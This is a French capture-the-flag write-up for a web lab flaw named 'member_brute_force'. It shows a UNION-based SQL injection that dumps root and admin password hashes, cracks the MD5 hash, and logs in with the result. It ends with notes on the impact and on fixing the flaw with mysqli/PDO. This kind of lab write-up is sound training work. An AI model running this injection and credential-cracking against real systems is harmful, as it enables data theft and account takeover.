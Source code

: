 # Explication

Nom de la faille:  member_brute_force

Aller sur l'URL:  `http://10.11.200.169/index.php?page=searchimg`

Il y a un input afin de chercher une image.

Commme expliqué précedemment, on a réussi à obtenir le schéma complet de la base SQL.

Pour cette faille là, on va se concentrer sur la table Member_Brute_Force.db_default qui a pour colonnes:
    `username, password`

En faisaint l'injection SQL:
```
	 1 OR 1=1 UNION select username, password FROM Member_Brute_Force.db_default 
```

http://10.11.200.169/index.php?page=searchimg&id=1+OR+1%3D1+UNION+select+username%2C+password+FROM+Member_Brute_Force.db_default+&Submit=Submit#

On trouve 2 `username` avec le même `password`.

```
    root : 3bf1114a986ba87ed28fc1b5884fc2f8
    admin : 3bf1114a986ba87ed28fc1b5884fc2f8
```

On decrypte le hash 3bf1114a986ba87ed28fc1b5884fc2f8 avec md5, on obtient alors `shadow`.

http://10.11.200.169/?page=signin&username=root&password=shadow&Login=Login#

On peut alors se logguer avec l'identifiant `admin` et `root` avec ce mot de passe. On otient alors le flag.

# Comment profiter de la faille ?

Une injection SQL peut mener à une destruction ou vol de données confidentielles.

Par exemple : vol de mots de passes, adresses email, ...

# Comment la fixe ?

Une des solutions les plus simples pour se prémunir de ce genre d'injections, il est possible d'utiliser différents outils (mySqli, PDO, ...).
Manuellement, cela consiste à vérifier qu'il n'y a aucun opérateur SQL dans la variable injectée.

# Autre manière de trouver la faille

Comme le nom l'indique, on peut brute force le nom et le mot de passe très facilement étant donnée la faiblesse de ce dernier.